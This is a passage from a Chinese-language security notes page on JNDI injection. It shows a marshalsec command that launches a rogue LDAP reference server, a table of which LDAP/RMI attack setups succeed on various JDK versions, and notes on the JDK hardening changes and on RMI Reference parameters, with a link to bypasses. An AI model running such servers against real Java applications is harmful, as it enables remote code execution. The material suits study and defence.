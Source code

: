 使用xshell运行：

```shell
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://0.0.0.0/#Test
http://0.0.0.0/#Test 
0.0.0.0是默认的端口此处可以改为ip地址/#这里是文件名
```

后面内容就是修改版本做测试了。

|  比较  | LDAP - marshalsec工具 | RMI marshalsec工具 | LDAP - jndi-inject工具 | RMI jndi-inject工具 |
| :----: | :-------------------: | :----------------: | :--------------------: | :-----------------: |
| JDK 17 |         可以          |      无法调用      |        无法调用        |      无法调用       |
| 11版本 |         可以          |      无法调用      |        无法调用        |      无法调用       |
| 8u362  |         可以          |      无法执行      |        无法执行        |      无法执行       |
| 8U112  |         可以          |        可以        |          可以          |        可以         |

<img src="https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/3701.png" style="zoom:80%;" />

JDK 6u45、7u21之后：

java.rmi.server.useCodebaseOnly的默认值被设置为true。当该值为true时，

将禁用自动加载远程类文件，仅从CLASSPATH和当前JVM的java.rmi.server.codebase指定路径加载类文件。

使用这个属性来防止客户端VM从其他Codebase地址上动态加载类，增加了RMI ClassLoader的安全性。

JDK 6u141、7u131、8u121之后：

增加了com.sun.jndi.rmi.object.trustURLCodebase选项，默认为false，禁止RMI和CORBA协议使用远程codebase的选项，因此RMI和CORBA在以上的JDK版本上已经无法触发该漏洞，但依然可以通过指定URI为LDAP协议来进行JNDI注入攻击。

JDK 6u211、7u201、8u191之后：

增加了com.sun.jndi.ldap.object.trustURLCodebase选项，默认为false，禁止LDAP协议使用远程codebase的选项，把LDAP协议的攻击途径也给禁了。

高版本绕过：

https://kingx.me/Restrictions-and-Bypass-of-JNDI-Manipulations-RCE.html

### JNDI-Injection & marshalsec 实现原理

> RMI调用
>
> bind：将名称绑定到对象中；
>
> lookup：通过名字检索执行的对象；
>
> Reference类表示对存在于命名/目录系统以外的对象的引用。
>
> Reference参数：
>
> className：远程加载时所使用的类名；
>
> classFactory：加载的class中需要实例化类的名称；
>
> classFactoryLocation：远程加载类的地址，提供classes数据的地址可以是file/ftp/http等协议；

